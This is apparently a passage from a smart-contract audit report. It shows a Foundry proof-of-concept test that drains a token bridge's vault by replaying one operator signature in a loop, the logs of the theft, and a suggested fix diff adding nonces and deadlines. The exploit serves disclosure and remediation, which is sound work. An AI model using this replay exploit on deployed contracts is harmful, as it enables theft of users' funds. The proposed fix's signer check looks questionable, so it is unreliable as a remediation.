 ```application-javascript-env-frontend
        bytes memory message = abi.encode(address(token), 0, abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, attackerInitBalance)));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(operator.key, MessageHashUtils.toEthSignedMessageHash(keccak256(message)));

        while(token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(attacker, attackerInitBalance, v, r, s, uint256(block.timestamp));
        }
        console2.log("stage 3");
        console2.log("balance of vault: ", token.balanceOf(address(vault)));
        console2.log("balance of attacker: ", token.balanceOf(address(attacker)));
    }
```

```text-x-sh
Logs:
  stage 1
  balance of vault:  1000000000000000000000
  balance of attacker:  100000000000000000000
  stage 2
  balance of vault:  1100000000000000000000
  balance of attacker:  0
  stage 3
  balance of vault:  0
  balance of attacker:  1100000000000000000000
```

From the result, signature replay caused all funds to be stolen, which can completely destroy the contract. The fix is simple: just perform signature verification.

```text-x-diff
    mapping(address account => bool isSigner) public signers;
+   mapping(address => uint256) public nonces;

-   function withdrawTokensToL1(address to, uint256 amount, uint8 v, bytes32 r, bytes32 s) external {
+   function withdrawTokensToL1(address to, uint256 amount, uint8 v, bytes32 r, bytes32 s, uint256 deadline) external {
+       require (block.timestamp <= deadline, "Signature expired");
+       uint256 nonce = nonces[msg.sender];
+
+       bytes32 digest = keccak256(abi.encodePacked(to, amount, nonce, deadline));
+
+       address signer = ecrecover(digest, v, r, s);
+       require(signer == msg.sender, "Invalid signature");
+
+       nonces[msg.sender]++;

        sendToL1(
            v,
            r,
            s,
            abi.encode(
                address(token),
                0, // value
                abi.encodeCall(IERC20.transferFrom, (address(vault), to, amount))
            )
        );
    }
```
